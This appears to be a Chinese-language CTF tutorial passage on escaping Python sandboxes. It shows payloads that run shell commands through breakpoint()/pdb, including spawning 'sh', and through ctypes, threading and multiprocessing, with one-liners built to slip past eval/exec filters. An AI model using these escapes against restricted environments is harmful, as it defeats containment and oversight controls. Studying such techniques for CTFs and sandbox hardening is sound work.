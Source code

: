 #### breakpoint 函数
pdb 模块定义了一个交互式源代码调试器，用于 Python 程序。它支持在源码行间设置（有条件的）断点和单步执行，检视堆栈帧，列出源码列表，以及在任何堆栈帧的上下文中运行任意 Python 代码。它还支持事后调试，可以在程序控制下调用。

在输入 breakpoint() 后可以代开 Pdb 代码调试器，在其中就可以执行任意 python 代码
```py
>>> 𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()
--Return--
> <stdin>(1)<module>()->None
(Pdb) __import__('os').system('ls')
a-z0-9.py  exp2.py  exp.py  flag.txt
0
(Pdb) __import__('os').system('sh')
$ ls
a-z0-9.py  exp2.py  exp.py  flag.txt
```
#### ctypes
```py
import ctypes

libc = ctypes.CDLL(None)
libc.system('ls ./'.encode())  # 使用 encode() 方法将字符串转换为字节字符串
```

沙箱中可以这么用：
```py
__import__('ctypes').CDLL(None).system('ls /'.encode())
```

#### threading
利用新的线程来执行函数
```py
import threading
import os

def func():
    os.system('ls')  # 在新的线程中执行命令

t = threading.Thread(target=func)  # 创建一个新的线程
t.start()  # 开始执行新的线程

```
写成一行:
```py
# eval, exec 都可以执行的版本
__import__('threading').Thread(target=lambda: __import__('os').system('ls')).start() 

# exec 可执行
import threading, os; threading.Thread(target=lambda: os.system('ls')).start()
```

#### multiprocessing
```py
import multiprocessing
import os

def func():
    os.system('ls') 

p = multiprocessing.Process(target=func) 
p.start()
```
